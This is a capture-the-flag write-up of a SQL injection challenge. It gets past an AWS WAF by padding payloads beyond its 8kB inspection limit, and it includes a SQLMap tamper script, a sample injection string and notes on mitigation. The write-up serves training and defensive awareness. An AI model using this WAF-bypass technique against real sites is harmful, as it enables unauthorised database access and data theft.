 # Asuna Waffles

> I really love blue-berry waffles. I really do. Even Asuna loves it too! There are two users, flag is in one of the columns.\
> \
> http://asuna.nullsession.pw\
> \
> author: Gladiator

Going to the index page, we are told that this is yet another SQL injection challenge ™️

```http
HTTP/1.1 200 OK
Date: Mon, 14 Mar 2022 04:44:43 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 114
Connection: close
Access-Control-Allow-Headers: *
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE
Access-Control-Allow-Origin: *
Access-Control-Expose-Headers: Content-Disposition
X-Request-Id: 3dfaa711-24bc-4755-b720-4b0fbfa16335

You can try using /search to search. Example: /search?q=bob ["SELECT * FROM user WHERE username = '"+username+"'"]
```

However, once we start fuzzing some classic SQLi payloads, we would quickly find that the challenge is not so simple. We are instead greeted with a 403 Forbidden page.

```http
HTTP/1.1 403 Forbidden
Server: awselb/2.0
Date: Mon, 14 Mar 2022 04:45:55 GMT
Content-Type: text/html
Content-Length: 520
Connection: close

<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->

```

One would notice, however, that the `Server` header is now present. We know that the application is put behind an AWS ELB, so we could guess that the AWS WAF is the one blocking our SQLi requests.

### Dangerous Defaults

A quick look at the AWS WAF [documentation](https://docs.aws.amazon.com/waf/latest/developerguide/waf-rule-statement-fields.html) would sound some alarm bells with these red warning boxes:

![](<../../.gitbook/assets/Screenshot 2022-03-14 at 12.48.58 PM.png>)

Wait... this can't be... can it? Surely there must be some other default rule that says that anything longer than 8kB is blocked without even being passed to the WAF... right?

Well, a simple test showed otherwise. Even a trivial payload like `aaa...[8kB]...aaa' or '1` would succeed. We could therefore dump the database using SQLi payloads longer than 8kB!

I was too lazy to do this manually, so I just wrote a simple SQLMap tamper script that prepends 8192 `"a"`s to the payload.

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
import re

__priority__ = PRIORITY.NORMAL
def dependencies():
    pass

def tamper(payload, **kwargs):
    return "a" * 8192 + payload
```

Dumping the database with SQLMap then gave the flag :smile:

`CTFSG{A_Cru3l_Summ3r_W1th_SAO_RELEASE_RECOLLECTION}`

### Is There a Mitigation?

Looking at the [managed rule groups changelog](https://docs.aws.amazon.com/waf/latest/developerguide/aws-managed-rule-groups-changelog.html), it seems the `SizeRestrictions_BODY` rule in the Core Rule Set was recently changed to block payloads larger than 8kB instead of 10kB, likely due to [this blog post](https://osamaelnaggar.com/blog/aws\_waf\_dangerous\_defaults/).

If we use the above rule together with SQLi detection, this would be mitigated. But this is not a default rule added out of the box, and a developer would likely not be aware that one has to use it in order to make their WAF effective. :thinking:
